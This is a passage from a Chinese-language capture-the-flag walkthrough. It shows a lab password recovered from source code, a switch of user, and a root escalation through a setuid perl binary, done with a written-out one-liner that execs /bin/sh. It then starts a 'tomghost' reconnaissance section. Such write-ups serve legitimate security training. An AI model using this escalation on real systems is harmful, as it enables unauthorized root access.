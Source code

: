 得到 password

```bash
WhyIsARavenLikeAWritingDesk?
```

su 换一下用户

## 定时任务提权 root

尝试 sudo 和 suid 提权发现没啥有用的，看一下定时任务

[![](assets/1706771526-02ad4677a6eabcd0953776bafea3b05f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129222923-cc6afd46-beb2-1.png)

发现 perl 有 set\_uid

[![](assets/1706771526-f4f128cce12c107d878b08837eb67a3f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129222927-ceb48770-beb2-1.png)

[![](assets/1706771526-0a1a4b4030d44ca4e587fcfb10b36edd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129222931-d147d99c-beb2-1.png)

```bash
./perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```

## tomghost

## 信息收集

mascan

[![](assets/1706771526-6b1b8775016330ac5ccd28b6adb268a8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129223011-e91024a8-beb2-1.png)
